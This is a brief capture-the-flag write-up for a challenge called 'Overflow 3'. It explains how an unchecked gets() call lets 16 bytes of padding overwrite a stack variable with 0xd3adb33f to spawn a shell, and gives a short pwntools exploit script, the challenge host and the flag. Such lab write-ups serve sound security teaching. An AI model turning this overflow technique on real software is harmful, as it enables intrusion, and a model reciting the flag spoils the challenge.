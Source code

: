 # Overflow 3
We look at the c source file, and see there's a variable called vuln set to 0. It uses gets to read into a 16 byte buffer. Then, it compares the variable vuln to 0xd3adb33f, and pops a shell if they are equal. We can do a simple variable overwrite with the buffer overflow, overwriting the value of vuln on the stack. Vuln is at ebp-0xc, the buffer is at ebp-0x1c, so we send 16 bytes and then 0xd3adb33f.

#### Flag: CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}
```py
from pwn import *
NUM_TO_VAR = 0x10
padding = b'A'*NUM_TO_VAR
e = ELF("./overflow3")
p = e.process() if args.LOCAL else remote('cyberyoddha.baycyber.net', 10003)
p.sendline(padding + p32(0xd3adb33f))
p.interactive()
```

